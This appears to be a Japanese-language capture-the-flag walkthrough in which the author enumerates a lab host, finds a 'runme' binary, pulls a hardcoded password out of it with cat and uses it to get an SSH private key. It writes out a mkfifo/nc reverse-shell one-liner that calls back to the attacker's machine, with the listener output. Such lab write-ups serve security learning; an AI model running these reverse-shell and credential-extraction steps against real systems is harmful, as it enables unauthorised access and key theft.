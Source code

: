 - catloverのhomeディレクトリにrunmeという実行ファイルがある
- このサービス上で実行すると、普通のshellで動かせと怒られる

```
ls home
catlover

ls home/catlover
runme


home/catlover/runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

# 怪しいファイルを実行するとパスワードを聞かれるので、ファイルを解析
- 使えるコマンドを確認し、リバースシェルで入りなおする
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.95 1234 >/tmp/f
```
- 攻撃端末側
```
└─# nc -lnvp 1234         
listening on [any] 1234 ...
connect to [10.9.1.95] from (UNKNOWN) [10.10.169.95] 58556
/bin/sh: 0: can't access tty; job control turned off

```
- 実行するとパスワードを聞かれる
- catコマンドで中身を見ると、パスワードプロンプトの前に、パスワードぽいものを確認
```
# ./runme
Please enter yout password: aaaa
Access Denied

# cat runme
略
f.������H�H��rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
       ������������������������0���|c����|��������XH�������zRx
                                                             0��
略
```

# 実行するとSSHの秘密鍵を入手できるのでそれを使ってリモート接続+フラグ取得
```
# ./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
# ls -al
total 28
drwxr-xr-x 2 0 0  4096 Apr  3 01:34 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
# ls -al
total 32
drwxr-xr-x 2 0 0  4096 Aug 14 11:06 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Aug 14 11:06 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
# cat id_rsa
```
